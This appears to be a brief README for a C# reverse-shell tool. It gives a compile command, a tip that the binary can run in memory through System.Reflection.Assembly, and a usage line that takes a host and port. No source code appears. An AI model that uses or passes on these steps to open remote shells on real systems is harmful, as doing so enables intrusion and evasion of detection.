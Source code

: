# Reverse-Shell-CSharp

Compile the file with csc.exe /target:exe /out:[FILENAME].exe .\Program.cs

Can execute in memory with System.Reflection.Assembly

.\[FILENAME].exe HOSTNAME PORT
